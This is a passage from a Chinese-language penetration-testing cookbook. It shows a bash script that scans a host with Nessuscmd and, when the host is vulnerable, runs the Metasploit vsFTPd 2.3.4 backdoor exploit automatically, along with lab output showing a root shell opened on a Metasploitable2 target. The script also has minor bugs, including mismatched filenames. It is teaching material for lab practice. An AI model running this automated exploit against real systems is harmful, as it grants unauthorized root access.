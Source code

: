 上面的输出显示，在完成 Nmap NSE 脚本后，将立即执行 Metasploit exploit 模块并在目标系统上返回一个交互式 Meterpreter shell。

### 工作原理

MSFCLI 是 MSF 控制台的有效替代工具，可用于直接从终端执行单行命令，而不是在交互式控制台中工作。 这使得 MSFCLI 对于 bash shell 脚本中的使用是一个很好的功能。 因为可以从 bash 终端执行 NSE 脚本和 MSFCLI，所以可以轻松编写 shell 脚本来将这两个功能组合在一起。

## 8.4 使用 MSF 漏洞利用的 Nessuscmd 漏洞扫描

将 NSE 脚本和 Metasploit 利用结合到一起可以减轻工作量。可由 NSE 脚本测试的漏洞数量明显小于可通过专用漏洞扫描程序（如 Nessus）评估的漏洞数量。 幸运的是，Nessus 有一个名为 Nessuscmd 的命令行工具，也可以在 bash 中轻松访问。 该秘籍演示了如何将 Nessus 定向漏洞扫描与 MSF 自动利用相结合来验证发现。

### 准备

为了使用此秘籍中演示的脚本，你需要访问运行漏洞服务的系统，该服务可以使用 Nessus 进行标识，并且可以使用 Metasploit 进行利用。 提供的示例在 Metasploitable2 服务器上使用 vsFTPd 2.3.4 后门漏洞。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。

此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本，将漏洞扫描和目标利用的任务结合到一起。 在这种情况下，Nessuscmd 用于运行 Nessus 插件，测试 vsFTPd 2.3.4 后门，以确定系统是否存在漏洞，然后如果发现系统存在漏洞，则对系统执行相应的 Metasploit 漏洞利用：

```sh
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST>"; exit; fi

rhost=$1

/opt/nessus/bin/nessuscmd -p 21 -i 55523 $rhost >> tmp_output.txt 
if [ $(grep 55523 output.txt | cut -d " " -f 9) = "55523" ];    
    then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";   
    msfcli exploit/unix/ftp/vsftpd_234_backdoor PAYLOAD=cmd/unix/ 
    interact RHOST=$rhost E; 
fi 
rm tmp_output.txt 
```

脚本的开头非常类似于漏洞扫描和利用脚本，它将 NSE 扫描与前一个秘籍中的 MSF 利用组合在一起。但是，由于在此特定脚本中使用了不同的载荷，因此用户必须提供的唯一参数是`RHOST`值，该值应该是目标系统的 IP 地址。脚本的正文以执行 Nessuscmd 工具开始。 `-p`参数声明正在评估的远程端口，`-i`参数声明插件号。插件 55523 对应 VSFTPd 2.3.4 后门的 Nessus 审计。 然后，Nessuscmd 的输出重定向到一个名为`tmp_output.txt`的临时输出文件。如果目标系统上存在此漏洞，则此脚本的输出将仅返回插件 ID。所以下一行使用`if ... then`条件语句结合`grep`序列，来确定返回的输出中的插件 ID。如果输出中返回了插件 ID，表明系统应该存在漏洞，那么将执行相应的 Metasploit 利用模块。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 
Usage: #./script <RHOST>
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 此使用描述表示，应使用`RHOST`参数执行脚本，它用于定义目标 IP 地址。 此输入值将用于 Nessuscmd 漏洞扫描和（如果存在漏洞）使用 Metasploit 在目标系统上执行利用。 在以下示例中，脚本用于确定 IP 地址为`172.16.36.135`的主机是否存在漏洞。 如果系统被确定为存在漏洞，则将执行该利用，并自动建立与后门的连接。

```
root@KaliLinux:~# ./nessuscmd_xploit.sh 172.16.36.135 
172.16.36.135 appears to be vulnerable, exploiting with Metasploit... 
[*] Initializing modules... 
PAYLOAD => cmd/unix/interact 
RHOST => 172.16.36.135 
[*] Banner: 220 (vsFTPd 2.3.4) 
[*] USER: 331 Please specify the password. 
[+] Backdoor service has been spawned, handling... 
[+] UID: uid=0(root) gid=0(root) 
[*] Found shell. 
[*] Command shell session 1 opened (172.16.36.232:48126 -> 172.16.36.135:6200) at 2014-04-28 00:29:21 -0400

```